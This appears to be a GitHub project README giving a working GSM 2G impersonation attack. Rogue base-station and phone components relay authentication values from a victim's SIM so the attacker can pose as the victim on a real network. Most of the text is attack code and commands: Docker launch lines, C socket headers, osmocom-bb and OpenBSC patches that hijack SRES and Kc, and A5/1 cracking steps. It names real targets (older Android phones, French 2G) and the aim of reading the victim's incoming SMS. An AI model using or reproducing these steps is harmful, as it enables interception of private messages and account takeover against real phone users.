

Hacking 2G BTS
--------------

The UE has become an MS again and we know how to be a BTS !

But even in the BTS does not authenticate MS does in front of the BTS. How can we bypass this ? By respecting the attack flow above ;)

I mean the secret is the key Ki stored on the SIM even with physical access you can't crack it thanks to the chip inventor ! But we can fool the authentication process :
The original process is :

* The BTS send a rand,key_sequence to the MS.
* The MS respond SRes = f(ki,rand)
* The MS cipher the communication with Kc= f(Ki,rand,key_seq)

The hacked process is :

* The genuine BTS send a rand,key_seq to the Evil MS.
* The Evil MS send it to our Evil BTS via socket between Evil BTS server and Evil MS client.
* The Evil BTS send the rand,key_seq to genuine MS
* The Genuine MS respond sres -> Evil BTS -> Evil MS -> Genuine BTS
* In the example video Kc is forwarded between Genuine MS-> Evil MS

`Impersonnate PoC <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

With french explanations ;) sorry...

`Impersonalisaion (français) <https://www.youtube.com/watch?v=gHKmmVZAaFo>`_

With english explanation (now ;)
`Impersonate (english) <https://www.youtube.com/watch?v=rSGA4oFsFrQ>`_

https://imgur.com/lUjkpGp
First of all there is a bug with brltty so

.. code-block:: bash

   apt remove brltty

on host (not on docker !)
Launch 1st

.. code-block:: bash

   sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/ms-final:hell_yeah

Launch 2nd

.. code-block:: bash

   sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/bts-final:hell_yeah

In this order cause need ip 172.17.0.2 for ms and 172.17.0.3 for bts (socket are made to work with theses addresses)

in bts

.. code-block:: bash

   tmux
   cd /
   service pcscd start
   ./evil-bts.sh

`
then in ms :

.. code-block:: bash

   tmux
   cd /
   bash trx.sh
   ctrl-b c 
   ./evil-ms.sh

set IMSI in OpenBSC (via telnet)
and in /root/.osmocom/bb/mobile.cfg
and set any ki but set one in OpenBSC
need a motorola c1** and a sim reader

What happen next ?

`Crack A5/1 <https://brmlab.cz/project/gsm/deka/attack-implementation>`_

5s to crack it before the Kc ciphered channel timeout has been gone and if it is done we have incomming SMS.

Targets android < 12, telco 2G until 2025 in France

Thank for reading !

Clients-servers architecture :
------------------------------

.. code-block::

   bsc-2rfa 172.17.0.2
   server rand 888 listen on 0.0.0.0
   client sres 666 -> 172.17.0.3

   bb-2rfa 172.17.0.3
   client rand 888 -> 172.17.0.2
   server sres 666 listen on 0.0.0.0
   server kc 777 listen on 0.0.0.0

   osmocom-genuine-ms 172.17.0.2
   client kc 777 -> 172.17.0.3

Headers :
---------

suppress_space.h

.. code-block:: c

   #include <stdio.h>
   char res[100];
   char* spaces(char str [])
   {
   int i = 0;int j = 0;
          while (str[i] != '\0')
          {
             if ((str[i] == ' ') != 1) {
               res[j] = str[i];
               j++;
             }
             i++;
          }
          res[j] = '\0';
   return res;}

hex.h

.. code-block:: c

   /*
    * Read hex strings and output as text.
    *
    * No checking of the characters is done, but the strings must have an even
    * length.
    *
    * $Id: hex2ascii.c,v 1.1 2009/09/19 23:56:49 grog Exp $
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include "suppress_space.h"
   char hexdigit (char c)
   {
     char outc;

     outc = c -'0';
     if (outc > 9)                                 /* A - F or a - f */
       outc -= 7;                                  /* A - F */
     if (outc > 15)                                /* a - f? */
       outc -= 32;
     if ((outc > 15) || (outc < 0))
     {
       fprintf (stderr, "Invalid character %c, aborting\n", c);
       exit (1);
     }
     return outc;
   }
   char ascii[17];
   const unsigned char* hex2ascii(char hexval[])
   {  int arg;
     char *c=spaces(hexval);
     int sl;
     char oc;

     for (arg = 0; arg < 17; arg++)
     {
       sl = strlen (c);
       if (sl & 1)                                 /* odd length */
       {
         fprintf (stderr,
                  "%s is %d chars long, must be even\n",
                  c,
                  sl );
         return "prout";
       }int i=0;
       while (*c)
       {
         oc = (hexdigit (*c++) << 4) + hexdigit (*c++);
         fputc (oc, stdout);
         strcat(ascii,&oc);
       }
     }
   return ascii;}

client.h (respect address and port of client server arch)

.. code-block:: c

   /**
    * Example taken from CS 241 @ UIUC
    * Edited by Austin Walters
    * Used as example for austingwalters.com,
    * in socket IPC explanation.
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include <sys/types.h>
   #include <sys/socket.h>
   #include <netdb.h>
   #include <unistd.h>

   void client(char buffer[]){

     int sock_fd = socket(AF_INET, SOCK_STREAM, 0);

     struct addrinfo info, *result;
     memset(&info, 0, sizeof(struct addrinfo));
     info.ai_family = AF_INET;
     info.ai_socktype = SOCK_STREAM;

     if(0 != getaddrinfo("172.17.0.3", "888", &info, &result))
       exit(1);

     /* Connects to bound socket on the server */  
     connect(sock_fd, result->ai_addr, result->ai_addrlen);

     printf("SENDING: %s", buffer);
     write(sock_fd, buffer, strlen(buffer));

     char resp[999];
     int len = strlen(buffer);
     resp[len] = '\0';
     printf("%s\n", resp);
   }

server.h (respect variable length : 13 for sres, 25 for kc, 51 for rand, and port from arch client-server) 

.. code-block:: c

   /**
    * Written by Austin Walters
    * For an example on austingwalters.com,
    * on sockets
    */

   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   #include <sys/types.h>
   #include <sys/socket.h>
   #include <netdb.h>
   #include <unistd.h>
   char text[13];
   char* catch_sres(){

     int sock_fd = socket(AF_INET, SOCK_STREAM, 0);
     struct addrinfo directives, *result;
     memset(&directives, 0, sizeof(struct addrinfo));
     directives.ai_family = AF_INET;
     directives.ai_socktype = SOCK_STREAM;
     directives.ai_flags = AI_PASSIVE;

     /* Translates IP, port, protocal into struct */
     if(0 !=  getaddrinfo("0.0.0.0", "666", &directives, &result))
       exit(1);

     /* Binds socket to port, so we know where new connections form */
     if(bind(sock_fd, result->ai_addr, result->ai_addrlen) != 0)
         exit(1);
     /* Places socket to "listen" or "wait for stuff" state */
     if(listen(sock_fd, 10) != 0)
         exit(1);
     int i=0;
     printf("Waiting for connection on http://0.0.0.0:666 ...\n");
     while(i==0){

       /* Accepts Connection */
       char buffer[1000];
       int client_fd = accept(sock_fd, NULL, NULL); 
       int len = read(client_fd, buffer, 999);
       buffer[len] = '\0';

       char * header = "<b>You Connected to the Server!</b>  ";
       i=i+1;
       write(client_fd, header, strlen(header));

       printf("=== Client Sent ===\n");
       printf("%s\n", buffer);
       memcpy(text,buffer,13);
       close(client_fd);

     }
     return text;
   }

Evil-MS :
---------

.. code-block:: bash

   git clone https://github.com/osmocom/osmocom-bb
   git checkout fc20a37cb375dac11f45b78a446237c70f00841c
   wget https://gitlab.com/francoip/thesis/raw/public/patch/thesis.patch
   patch -p1 < thesis.patch

.. code-block:: patch

   diff -ru osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c
   --- osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:39:46.222274989 +0200
   +++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c 2022-08-30 15:35:55.472598046 +0200
   @@ -20,6 +20,7 @@
     */

    #include <stdint.h>
   +#include <string.h>
    #include <errno.h>
    #include <stdio.h>
    #include <string.h>
   @@ -41,7 +42,7 @@
    #include <osmocom/bb/mobile/app_mobile.h>
    #include <osmocom/bb/mobile/vty.h>
    #include <osmocom/bb/mobile/dos.h>
   -
   +#include "client.h"
    extern void *l23_ctx;

    void mm_conn_free(struct gsm48_mm_conn *conn);
   @@ -1662,6 +1663,15 @@
        */
       if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
           no_sim = 1;
   +   char test2[]="1";
   +   sprintf(test2, "%d", ar->key_seq);
   +   char test3[3]="-";//"87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
   +   strcat(test3,test2);
   +   char test[51]="87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
   +   strcpy(test,osmo_hexdump(ar->rand,16));
   +   strcat(test,test3);
   +   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (seq %s)\n", test);
   +   client(test);
       gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

       /* wait for auth response event from SIM */
   diff -ru osmocom-bb/src/host/layer23/src/mobile/subscriber.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c
   --- osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:38:53.125893570 +0200
   +++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c   2022-08-30 15:35:55.476598075 +0200
   @@ -30,6 +30,11 @@
    #include <osmocom/bb/common/osmocom_data.h>
    #include <osmocom/bb/common/networks.h>
    #include <osmocom/bb/mobile/vty.h>
   +#include "server.h"
   +#include "server2.h"
   +#include "hex.h"
   +#include "hex2.h"
   +

    /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
     * if list is changed, the result is not written back to SIM */
   @@ -945,14 +950,21 @@

           /* store sequence */
           subscr->key_seq = key_seq;
   -       memcpy(subscr->key, vec->kc, 8);
   +

           LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
   +                char *h4ck3d_kc;
   +                h4ck3d_kc = catch_kc();
   +                const unsigned char *my_h4ck3d_kc=hex2ascii(h4ck3d_kc);
   +       char *h4ck3d_sres;
   +       h4ck3d_sres = catch_sres();
   +           const unsigned char *my_h4ck3d_sres=hex2ascii2(h4ck3d_sres);
   +       memcpy(subscr->key, my_h4ck3d_kc, 8);
           nmsg = gsm48_mmevent_msgb_alloc(GSM48_MM_EVENT_AUTH_RESPONSE);
   -       if (!nmsg)
   -           return -ENOMEM;
           nmme = (struct gsm48_mm_event *) nmsg->data;
   -       memcpy(nmme->sres, vec->sres, 4);
   +           memcpy(nmme->sres,my_h4ck3d_sres, 4);
   +       LOGP(DMM, LOGL_INFO, "KC hijacked = %s\n",osmo_hexdump(my_h4ck3d_kc,8));
   +       LOGP(DMM, LOGL_INFO, "SRES hijacked = %s\n",osmo_hexdump(my_h4ck3d_sres,4));
           gsm48_mmevent_msg(ms, nmsg);

           return 0;

Genuine-MS (Kc Forwarding)
--------------------------

Patch osmocom-bb

.. code-block:: bash

   git clone https://github.com/osmocom/osmocom-bb
   git checkout fixeria/trxcon

.. code-block:: patch

   diff -ru trx/src/host/layer23/src/mobile/gsm48_mm.c osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c
   --- trx/src/host/layer23/src/mobile/gsm48_mm.c  2022-08-30 16:41:37.076916961 +0200
   +++ osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c   2022-08-30 15:51:17.267099639 +0200
   @@ -1651,6 +1651,7 @@
        */
       if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
           no_sim = 1;
   +   LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (rand %s)\n", osmo_hexdump(ar->rand,16));  
       gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);

       /* wait for auth response event from SIM */
   diff -ru trx/src/host/layer23/src/mobile/subscriber.c osmocom-bb/src/host/layer23/src/mobile/subscriber.c
   --- trx/src/host/layer23/src/mobile/subscriber.c    2022-08-30 16:41:37.076916961 +0200
   +++ osmocom-bb/src/host/layer23/src/mobile/subscriber.c 2022-08-30 15:51:17.267099639 +0200
   @@ -32,7 +32,7 @@
    #include <osmocom/bb/common/sap_proto.h>
    #include <osmocom/bb/common/networks.h>
    #include <osmocom/bb/mobile/vty.h>
   -
   +#include "client.h"
    /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
     * if list is changed, the result is not written back to SIM */
    //#define TEST_EMPTY_FPLMN
   @@ -369,6 +369,7 @@

       /* key */
       memcpy(subscr->key, data, 8);
   +   //client(osmo_hexdump(subscr->key,8));

       /* key sequence */
       subscr->key_seq = data[8] & 0x07;
   @@ -907,7 +908,7 @@
       struct msgb *nmsg;
       struct sim_hdr *nsh;

   -   /* not a SIM */
   +   /* not a SIM
       if (!GSM_SIM_IS_READER(subscr->sim_type)
        || !subscr->sim_valid || no_sim) {
           struct gsm48_mm_event *nmme;
   @@ -944,6 +945,7 @@

           /* store sequence */
           subscr->key_seq = key_seq;
   +       //client(osmo_hexdump(vec->kc,8));
           memcpy(subscr->key, vec->kc, 8);

           LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
   @@ -969,6 +971,7 @@

       /* random */
       memcpy(msgb_put(nmsg, 16), rand, 16);
   +   LOGP(DMM, LOGL_NOTICE, "Key Sequence=%d\n",key_seq);

       /* store sequence */
       subscr->key_seq = key_seq;
   @@ -1019,7 +1022,9 @@
       nsh->file = 0x6f20;
       data = msgb_put(nmsg, 9);
       memcpy(data, subscr->key, 8);
   -   data[8] = subscr->key_seq;
   +        LOGP(DMM, LOGL_NOTICE, "KC=%s\n",osmo_hexdump(subscr->key,8));
   +   client(osmo_hexdump(subscr->key,8));
   +   data[8] = subscr->key;
       sim_job(ms, nmsg);

       /* return signed response */

Patch OpenBSC Evil-BTS:
-----------------------

.. code-block:: bash

   git clone https://github.com/osmocom/openbsc
   git checkout 3f457a3b79e2908664b40eab9ca8e70c44a54898

.. code-block:: patch

   diff -ru openbsc/openbsc/src/libmsc/gsm_04_08.c bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c
   --- openbsc/openbsc/src/libmsc/gsm_04_08.c  2022-08-30 16:59:20.033455224 +0200
   +++ bsc-2rfa/openbsc/src/libmsc/gsm_04_08.c 2022-08-30 15:51:17.243099474 +0200
   @@ -70,7 +70,10 @@
    #include <osmocom/gsm/tlv.h>

    #include <assert.h>
   +#include "server.h"
   +#include "hex.h"
   +#include "client.h"

    void *tall_locop_ctx;
    void *tall_authciphop_ctx;

   @@ -908,6 +911,20 @@
       struct msgb *msg = gsm48_msgb_alloc_name("GSM 04.08 AUTH REQ");
       struct gsm48_hdr *gh = (struct gsm48_hdr *) msgb_put(msg, sizeof(*gh));
       struct gsm48_auth_req *ar = (struct gsm48_auth_req *) msgb_put(msg, sizeof(*ar));
   +        DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
   +   
   +
   +
   +   char *test;
   +   test=catch_rand();
   +   printf("test %s\n",test);
   +   char *randy=strtok(test," -");
   +   printf("rand %s\n",rand);
   +   char *kandy_seq=strtok(NULL,"-");
   +   printf("key_seq %s\n",kandy_seq);
   +   char *randy_magnum = spaces(randy);
   +        const unsigned char *randynator=hex2ascii(randy_magnum);
   +        memcpy(rand,randynator,16);

       DEBUGP(DMM, "-> AUTH REQ (rand = %s)\n", osmo_hexdump(rand, 16));
       if (autn)
   @@ -917,7 +934,7 @@
       gh->proto_discr = GSM48_PDISC_MM;
       gh->msg_type = GSM48_MT_MM_AUTH_REQ;

   -   ar->key_seq = key_seq;
   +   ar->key_seq = kandy_seq;

Installing BTS-Evil:
--------------------

.. code-block:: bash

   git clone https://github.com/bbaranoff/heartbreaker

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 1.1.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   apt install -y libortp-dev
   cd ..

   git clone https://github.com/osmocom/osmocom-bb
   cd osmocom-bb/src
   git checkout fixeria/trxcon
   make nofirmware

   cd ../..
   git clone https://github.com/osmocom/libosmo-abis
   cd libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd ..
   git clone https://github.com/osmocom/libosmo-netif
   cd libosmo-netif
   git checkout 0.6.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig

   cd bsc-2rfa/openbsc
   autoreconf -fi && ./configure && make -j4
   cd ../..
   git clone https://github.com/osmocom/osmo-bts
   cd osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   apt install ruby-libxml ruby-dev ruby-dbus
   gem install serial smartcard

Installing MS-Evil :
--------------------

.. code-block:: bash

   git clone https://github.com/bbaranoff/heartbreaker

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 1.1.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   apt install -y libortp-dev
   cd ..

   git clone https://github.com/osmocom/osmocom-bb
   cd osmocom-bb/src
   git checkout fixeria/trxcon
   make nofirmware

   cd ../..
   git clone https://github.com/osmocom/libosmo-abis
   cd libosmo-abis
   git checkout 0.8.1
   autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

   cd ..
   git clone https://github.com/osmocom/libosmo-netif
   cd libosmo-netif
   git checkout 0.6.0
   autoreconf -fi && ./configure && make -j4 && make install && ldconfig
   cd ..

   cd bsc-2rfa/openbsc
   autoreconf -fi && ./configure && make -j4
   cd ../..
   git clone https://github.com/osmocom/osmo-bts
   cd osmo-bts
   git checkout 0.8.1
   autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

   apt install ruby-libxml ruby-dev ruby-dbus
   gem install serial smartcard

Installing MS-Evil
------------------

.. code-block:: bash

   #!/bin/bash
   mkdir /heartbreaker
   cd /heartbreaker
   apt install autoconf-archive libdbd-sqlite3 gcc-9 g++-9 gcc-10 g++-10 git autoconf pkg-config libtool build-essential libtalloc-dev libpcsclite-dev gnutls-dev python2 python2-dev fftw3-dev libsctp-dev libdbi-dev -y
   cp /usr/bin/python2 /usr/bin/python
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
   update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
   update-alternatives --set gcc /usr/bin/gcc-9
   git clone git://git.osmocom.org/libosmocore.git
   cd  libosmocore
   git checkout 0.9.0
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig
   cd ..
   git clone git://git.osmocom.org/libosmo-dsp.git
   cd libosmo-dsp
   libtoolize && autoreconf -fi
   autoreconf -fi
   ./configure
   make
   make install
   ldconfig

   cd ../bb-2rfa/src
   make nofirmware

**A5/1 Cracking**
---------------------

Download the tables :

`a51_tables <https://infocon.org/rainbow%20tables/A51/>`_

Prepare them :

.. code-block:: bash

   #!/bin/bash
   offset_total=0
   echo 0 > test
   for abblay in $echo $(ls /media/$USER/tables) ; do abblay2=$(echo $abblay | sed 's/.dlt//g');
   cd /media/$USER/indexes/
   /media/$USER/indexes/kraken/TableConvert/TableConvert di /media/$USER/tables/$abblay2.dlt $abblay2.ins:$offset_total $abblay2.idx
   taille_arrondie=$(echo $(( $(( $(stat -c%s $abblay2.ins)/4096 )) +1 )) *4096 | bc)
   offset_total=$(($taille_arrondie + $offset_total))
   echo $taille_arrondie >> test
   done
   awk '{S+=$0}{print S}END{}' test > offsets
   git clone http://jenda.hrach.eu/p/deka
   git clone https://github.com/0x7678/typhon-vx/tree/master/kraken
   sudo add-apt-repository ppa:deadsnakes/ppa
   sudo apt update
   sudo apt install python3.7 python3.7-dev nvidia-utils-515-server xserver-xorg-video-nvidia-515
   sudo python3.7 -m pip install pyopencl numpy scipy
   cd deka
   ./genkernel64.sh > slice.c
   sed -i -e 's/3.5m/3.7m/g' Makefile
   make

\newpage

----
